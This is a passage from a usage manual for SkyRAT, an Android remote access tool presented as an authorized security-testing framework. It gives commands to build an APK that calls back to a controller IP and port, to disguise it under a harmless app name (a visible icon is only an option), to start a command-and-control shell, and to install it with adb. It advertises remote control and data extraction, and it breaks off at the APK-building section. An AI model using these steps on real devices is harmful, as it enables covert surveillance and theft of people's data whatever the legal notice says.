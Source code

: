 # SkyRAT Usage Manual

Comprehensive guide for using the SkyRAT Android Security Testing Framework.

## 🎯 Overview

SkyRAT provides a complete framework for authorized Android security testing, including:
- **APK Building**: Create custom testing APKs from source code
- **Command & Control**: Remote device access and control
- **Data Extraction**: Comprehensive device data analysis
- **Security Assessment**: Test Android security mechanisms

## ⚠️ Important Legal Notice

**SkyRAT is for authorized security testing only.** Before using:
- Obtain explicit written permission
- Test only on devices you own or have authorization to test
- Comply with all applicable laws and regulations
- Follow responsible disclosure practices

## 🚀 Quick Start

### **1. Build Your First APK**
```bash
# Basic APK build
python3 skyrat.py --build -i 192.168.1.100 -p 8000 -o my-test.apk

# Build with visible icon
python3 skyrat.py --build -i 192.168.1.100 -p 8000 --visible-icon -o visible-test.apk

# Build with custom app name
python3 skyrat.py --build -i 192.168.1.100 -p 8000 --app-name "Security Scanner" -o scanner.apk
```

### **2. Start C&C Server**
```bash
# Start server and wait for connections
python3 skyrat.py --shell -i 192.168.1.100 -p 8000
```

### **3. Install and Test**
```bash
# Install APK on test device
adb install build/my-test.apk

# Grant permissions when prompted
# App will connect automatically to your server
```

## 🔧 Building APKs
